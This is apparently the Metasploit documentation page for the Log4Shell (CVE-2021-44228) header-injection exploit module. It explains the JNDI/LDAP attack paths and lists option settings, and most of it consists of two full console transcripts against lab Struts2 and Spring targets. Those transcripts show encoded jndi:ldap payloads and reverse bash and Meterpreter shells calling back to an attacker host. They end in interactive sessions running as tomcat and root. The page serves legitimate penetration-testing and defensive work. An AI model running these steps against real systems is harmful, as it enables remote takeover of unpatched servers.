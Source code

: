 ## Vulnerable Application
Versions of Apache Log4j2 impacted by CVE-2021-44228 which allow JNDI features used in configuration,
log messages, and parameters, do not protect against attacker controlled LDAP and other JNDI related endpoints.

This module will exploit an HTTP end point with the Log4Shell vulnerability by injecting a format message that
will trigger an LDAP connection to Metasploit and load a payload.

The Automatic target delivers a Java payload using remote class loading. This requires Metasploit to run an HTTP
server in addition to the LDAP server that the target can connect to. The targeted application must have the
trusted code base option enabled for this technique to work.

The non-Automatic targets deliver a payload via a serialized Java object provided by ysoserial. This does not
require Metasploit to run an HTTP server and instead leverages the LDAP server to deliver the serialized object.
The target application in this case must be compatible with the user-specified `YSOSERIAL_PAYLOAD` option.

## Verification Steps

1. Setup a vulnerable Struts2 instance (see the steps below)
2. Start msfconsole
3. Do: `use exploit/multi/http/log4shell_header_injection`
4. Set the `SRVHOST`, `RHOSTS`, `RPORT` and `TARGETURI` options
    * For Struts2, set `TARGETURI` to `/struts2-showcase/`
5. If using a target other than Automatic, optionally change the `YSOSERIAL_PAYLOAD` setting
6. Do: `run`
7. If the target is vulnerable, the payload should be executed


### Apache Struts2 Verification
For Apache Struts2, setup a vulnerable instance using the [steps][1] from the scanner module and use the following
options:

```
set HTTP_HEADER If-Modified-Since
set TARGETURI /struts2-showcase/struts/utils.js
set YSOSERIAL_LIB CommonsBeanutils1
set TARGET Linux
set PAYLOAD cmd/unix/reverse_bash
```

This scenario uses the non-Automatic target to deliver a serialized payload. The target is compatible with the
CommonsBeanutils1 ysoserial payload.

### Spring2 Verification
For Spring2, run the `christophetd/log4shell-vulnerable-app:latest` docker image and use the following options:

```
set HTTP_HEADER X-Api-Version
set TARGETURI /
set TARGET Automatic
set PAYLOAD java/meterpreter/reverse_tcp
```

This scenario uses the Automatic target and remote class loading. The target application has the trusted code base
option enabled, allowing the payload to be loaded.

## Options

### HTTP_HEADER
The HTTP header to inject into. If this option is not specified, the scanner module will be used to automatically
identify a suitable value.

### HTTP_METHOD
The HTTP method to use.

### HTTP_SRVPORT
The HTTP server port. This service is used for remote class loading and is only relevant when the target is Automatic.

### YSOSERIAL_PAYLOAD
The ysoserial payload to use for deserialization. This option is only relevant for non-Automatic targets that deliver a
serialized object. The selected ysoserial payload must be compatible with the target application.

## Scenarios

### Apache Struts2
For setup, see the "Apache Struts2 Verification" section above. The `If-Modified-Since` header is automatically detected
by the scanner.

```
msf6 > use exploit/multi/http/log4shell_header_injection
[*] Using configured payload java/shell_reverse_tcp
msf6 exploit(multi/http/log4shell_header_injection) > set RHOSTS 192.168.159.128
RHOSTS => 192.168.159.128
msf6 exploit(multi/http/log4shell_header_injection) > set RPORT 8080
RPORT => 8080
msf6 exploit(multi/http/log4shell_header_injection) > set SRVHOST 192.168.250.134
SRVHOST => 192.168.250.134
msf6 exploit(multi/http/log4shell_header_injection) > set TARGETURI /struts2-showcase/struts/utils.js
TARGETURI => /struts2-showcase/struts/utils.js
msf6 exploit(multi/http/log4shell_header_injection) > set YSOSERIAL_LIB CommonsBeanutils1
YSOSERIAL_LIB => CommonsBeanutils1
msf6 exploit(multi/http/log4shell_header_injection) > set TARGET Linux
TARGET => Linux
msf6 exploit(multi/http/log4shell_header_injection) > set PAYLOAD cmd/unix/reverse_bash
PAYLOAD => cmd/unix/reverse_bash
msf6 exploit(multi/http/log4shell_header_injection) > set LHOST 192.168.250.134
LHOST => 192.168.250.134
msf6 exploit(multi/http/log4shell_header_injection) > check

[*] Using auxiliary/scanner/http/log4shell_scanner as check
[+] 192.168.159.128:8080  - Log4Shell found via /struts2-showcase/struts/utils.js (header: If-Modified-Since) (java: BellSoft_11.0.13)
[+] 192.168.159.128:8080  - Log4Shell found via /struts2-showcase/struts/utils.js/%24%7bjndi%3aldap%3a%24%7b%3a%3a-/%7d/192.168.250.134%3a389/e31vm2fhlvewa70x3igyp/%24%7bsys%3ajava.vendor%7d_%24%7bsys%3ajava.version%7d%7d/ (java: BellSoft_11.0.13)
[*] Scanned 1 of 1 hosts (100% complete)
[*] Sleeping 30 seconds for any last LDAP connections
[+] 192.168.159.128:8080 - The target is vulnerable.
msf6 exploit(multi/http/log4shell_header_injection) > exploit

[*] Started reverse TCP handler on 192.168.250.134:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Using auxiliary/scanner/http/log4shell_scanner as check
[+] 192.168.159.128:8080  - Log4Shell found via /struts2-showcase/struts/utils.js (header: If-Modified-Since) (java: BellSoft_11.0.13)
[+] 192.168.159.128:8080  - Log4Shell found via /struts2-showcase/struts/utils.js/%24%7bjndi%3aldap%3a%24%7b%3a%3a-/%7d/192.168.250.134%3a389/qn32g1o993yt6s8z91b3ujz/%24%7bsys%3ajava.vendor%7d_%24%7bsys%3ajava.version%7d%7d/ (java: BellSoft_11.0.13)
[*] Scanned 1 of 1 hosts (100% complete)
[*] Sleeping 30 seconds for any last LDAP connections
[+] The target is vulnerable.
[+] Automatically identified vulnerable header: If-Modified-Since
[*] Command shell session 1 opened (192.168.250.134:4444 -> 192.168.250.134:54580 ) at 2022-01-07 14:37:25 -0500
[*] Server stopped.

id
uid=999(tomcat) gid=999(tomcat) groups=999(tomcat)
pwd
/
```

### Spring2
For setup, see the "Spring2 Verification" section above. The `X-Api-Version` header is automatically detected by the
scanner.

```
msf6 > use exploit/multi/http/log4shell_header_injection
[*] Using configured payload java/meterpreter/reverse_tcp
msf6 exploit(multi/http/log4shell_header_injection) > set RHOSTS 192.168.159.128
RHOSTS => 192.168.159.128
msf6 exploit(multi/http/log4shell_header_injection) > set RPORT 8080
RPORT => 8080
msf6 exploit(multi/http/log4shell_header_injection) > set SRVHOST 192.168.250.134
SRVHOST => 192.168.250.134
msf6 exploit(multi/http/log4shell_header_injection) > set HTTP_SRVPORT 80
HTTP_SRVPORT => 80
msf6 exploit(multi/http/log4shell_header_injection) > set TARGETURI /
TARGETURI => /
msf6 exploit(multi/http/log4shell_header_injection) > set TARGET Automatic
TARGET => Automatic
msf6 exploit(multi/http/log4shell_header_injection) > set PAYLOAD java/meterpreter/reverse_tcp
PAYLOAD => java/meterpreter/reverse_tcp
msf6 exploit(multi/http/log4shell_header_injection) > set LHOST 192.168.250.134
LHOST => 192.168.250.134
msf6 exploit(multi/http/log4shell_header_injection) > check

[*] Using auxiliary/scanner/http/log4shell_scanner as check
[+] 192.168.159.128:8080  - Log4Shell found via / (header: X-Api-Version) (java: Oracle Corporation_1.8.0_181)
[*] Scanned 1 of 1 hosts (100% complete)
[*] Sleeping 30 seconds for any last LDAP connections
[+] 192.168.159.128:8080 - The target is vulnerable.
msf6 exploit(multi/http/log4shell_header_injection) > exploit

[*] Started reverse TCP handler on 192.168.250.134:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Using auxiliary/scanner/http/log4shell_scanner as check
[+] 192.168.159.128:8080  - Log4Shell found via / (header: X-Api-Version) (java: Oracle Corporation_1.8.0_181)
[*] Scanned 1 of 1 hosts (100% complete)
[*] Sleeping 30 seconds for any last LDAP connections
[+] The target is vulnerable.
[+] Automatically identified vulnerable header: X-Api-Version
[*] Serving Java code on: http://192.168.250.134:80/VfrBNShRHj.jar
[*] Sending stage (58082 bytes) to 192.168.250.134
[*] Meterpreter session 1 opened (192.168.250.134:4444 -> 192.168.250.134:54582 ) at 2022-01-07 14:42:16 -0500
[*] Server stopped.

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer    : 6febf4ddad76
OS          : Linux 5.15.12-100.fc34.x86_64 (amd64)
Meterpreter : java/linux
meterpreter > 
```

[1]: https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/auxiliary/scanner/http/log4shell_scanner.md#apache-struts2-setup
